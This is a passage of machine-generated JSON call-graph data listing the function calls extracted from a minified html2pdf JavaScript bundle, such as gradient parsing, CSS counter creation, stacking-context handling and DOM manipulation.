"EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createTextNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createAdditiveCounter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCounterText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCounterStyleWithSymbolResolver"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "resolver"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCounterStyleFromRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCounterStyleWithSymbolResolver"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCounterStyleFromSymbols"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCounterStyleWithSymbolResolver"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCJKCounter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCounterText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCounterText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCounterStyleFromRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCounterStyleFromSymbols"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createAdditiveCounter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createAdditiveCounter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCounterStyleFromRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCounterStyleFromRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCounterStyleFromRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCounterStyleFromRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createAdditiveCounter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createAdditiveCounter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCounterStyleFromRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCounterStyleFromRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCounterStyleFromSymbols"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCounterStyleFromSymbols"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCJKCounter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCJKCounter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCJKCounter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCJKCounter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCJKCounter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCJKCounter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCJKCounter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCJKCounter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCJKCounter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCounterStyleFromRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createAdditiveCounter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCounterStyleFromRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCounterStyleFromRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createAdditiveCounter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCounterStyleFromSymbols"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCounterStyleFromSymbols"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCounterStyleFromRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCounterStyleFromSymbols"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCounterStyleFromSymbols"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCounterStyleFromRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCounterStyleFromRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCounterStyleFromRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCounterStyleFromRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCounterStyleFromRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCounterStyleFromRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCounterStyleFromRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCounterStyleFromRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCounterStyleFromRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCounterStyleFromRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unwrapExports"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCommonjsModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_classCallCheck"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_classCallCheck"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getComputedStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "matrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "hasAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_createClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getClipPaths"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isInFlow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isRootElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isFloating"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isAbsolutelyPositioned"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isVisible"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isAbsolutelyPositioned"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isPositioned"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isFloating"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isRootElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isTransformed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isPositionedWithZIndex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isPositioned"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isInlineLevel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isInlineBlockOrInlineTable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "loadImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "loadImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "loadCanvas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unwrapExports"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCommonjsModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_classCallCheck"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_classCallCheck"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_createClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getOpacity"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getRealParentStackingContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getRealParentStackingContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unwrapExports"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCommonjsModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseNodeTree"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseNodeTree"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createsRealStackingContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isPositioned"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getRealParentStackingContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseNodeTree"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseNodeTree"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createsRealStackingContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isPositioned"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getRealParentStackingContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createsRealStackingContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isRootElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isPositionedWithZIndex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isTransformed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isBodyWithTransparentRoot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createsStackingContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isPositioned"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isFloating"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isBodyWithTransparentRoot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isTransparent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unwrapExports"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCommonjsModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_classCallCheck"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_classCallCheck"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_createClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getMetrics"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_parseMetrics"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unwrapExports"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCommonjsModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseAngle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unwrapExports"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCommonjsModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "sliceIterator"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "sliceIterator"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_classCallCheck"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_classCallCheck"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_classCallCheck"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseGradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseLinearGradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseLinearGradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseRadialGradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseRadialGradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseColorStops"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "lastIndexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getAbsoluteValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseLinearGradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "calculateGradientDirection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseSideOrCorner"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parsePercentageAngle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "calculateGradientDirection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseRadialGradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getAbsoluteValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getAbsoluteValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getAbsoluteValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getAbsoluteValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "calculateRadius"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "calculateGradientDirection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseTopRight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "acos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseSideOrCorner"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "calculateGradientDirection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "calculateGradientDirection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "calculateGradientDirection"}, {"confidence": "EXTRACTED", 